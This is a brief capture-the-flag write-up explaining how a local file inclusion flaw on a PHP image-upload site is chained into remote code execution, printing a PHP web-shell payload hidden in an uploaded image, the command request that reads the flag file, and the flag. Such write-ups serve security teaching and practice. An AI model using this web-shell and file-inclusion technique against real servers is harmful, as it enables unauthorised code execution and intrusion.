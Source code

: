 # Local Fun Inclusion

For this challenge we are provided with a URL `http://lfi.hax1.allesctf.net:8081/`. On this website we can upload image files, and view images we uploaded.

The URL of the page to view uploaded images looks interesting: `http://lfi.hax1.allesctf.net:8081/index.php?site=view.php&image=uploads/4a902b8e5615c86ac23c71f21f6612fe.jpg`. `uploads/4a902b8e5615c86ac23c71f21f6612fe.jpg` is probably the location of the uploaded image and `site=view.php` looks like it might be vulnerable to local file inclusion (who would have thought, given the challenge name). That's quickly verified by navigating to `http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/4a902b8e5615c86ac23c71f21f6612fe.jpg`, which shows the raw image file embedded in the response.

Embedding PHP code, like `<?php system($_GET["c"]); ?>`, in the image file grants the ability to execute arbitrary code on the webserver. The flag can be obtained through the response to `http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/4a902b8e5615c86ac23c71f21f6612fe.jpg&c=cat+flag.php`.

Flag: `CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}`

